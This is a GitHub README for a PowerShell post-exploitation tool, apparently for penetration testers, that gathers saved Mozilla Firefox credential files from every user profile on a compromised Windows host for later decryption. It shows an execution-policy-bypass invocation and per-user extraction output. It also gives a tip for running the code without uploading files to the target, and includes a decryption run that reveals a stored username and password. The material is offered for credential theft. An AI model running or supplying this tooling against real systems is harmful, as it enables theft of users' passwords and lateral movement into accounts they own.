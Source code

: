# firefox_dump
When trying to gather additional credentials from lets say an Administrator Jump Host, extracting sensitive Mozilla Firefox files is a great approach. Doing this manually is boring and time consuming, especially if there are hundreds of users under `C:\Users`. 

To simplify this I've made a simple PowerShell script, [`firefox_dump.ps1`](https://raw.githubusercontent.com/0xPThree/firefox_dump/main/firefox_dump.ps1), that gathers all sensitive Mozilla Firefox information which can later be decrypted using [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.

The script should be ran as a high privileged user to gain as much information as possible.

## Example Usage
```powershell
PS C:\tmp> powershell.exe -ExecutionPolicy Bypass .\firefox_extract.ps1
 ___    __   ___  ___  __       __              __
|__  | |__) |__  |__  /  \ \_/ |  \ |  |  |\/| |__)
|    | |  \ |___ |    \__/ / \ |__/ \__/  |  | |
                                      by: 0xPThree

[+] Extracting secrets from 'user1' to: C:\tmp\user1\ljftf853.default-release
[+] Extracting secrets from 'user1' to: C:\tmp\user1\skvrf23a.default
[+] Extracting secrets from 'user2' to: C:\tmp\user2\grg21h5s.default
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
```

If you don't want to upload files to the target host it's possible to simply copy-paste the try-catch code from the script and run it as is in PowerShell.

```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
